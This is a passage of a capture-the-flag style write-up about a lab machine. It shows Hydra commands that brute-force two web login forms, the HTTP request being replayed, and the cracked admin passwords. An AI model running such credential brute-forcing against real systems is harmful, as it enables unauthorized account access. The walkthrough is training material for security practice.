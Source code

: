 ```sudo hydra -l admin -P $ROCK 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
[STATUS] 582.00 tries/min, 582 tries in 00:01h, 14343816 to do in 410:46h, 16 active
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-31 01:10:51
```
- We found a valid credential --> admin:password123
- 
# Port 80

- We find another page called as /department which provides us with a login page.
- We can bruteforce it too, using hydra. The request page is below

```html
POST /department/login.php HTTP/1.1
Host: 10.10.10.43
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://10.10.10.43
Connection: close
Referer: http://10.10.10.43/department/login.php
Cookie: PHPSESSID=6am0khatc9bb9p5gddbepd2v83
Upgrade-Insecure-Requests: 1

username=admin&password=trial
```
- Using hyra for password bruteforcing
```bash
sudo hydra -l admin -P $ROCK 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password"
[sudo] password for norman: 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-03-31 00:59:14
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=admin&password=^PASS^:Invalid Password
[STATUS] 1031.00 tries/min, 1031 tries in 00:01h, 14343367 to do in 231:53h, 16 active
    
[STATUS] 1041.67 tries/min, 3125 tries in 00:03h, 14341273 to do in 229:28h, 16 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-03-31 01:03:41

```
- We found a password --> admin:1q2w3e4r5t
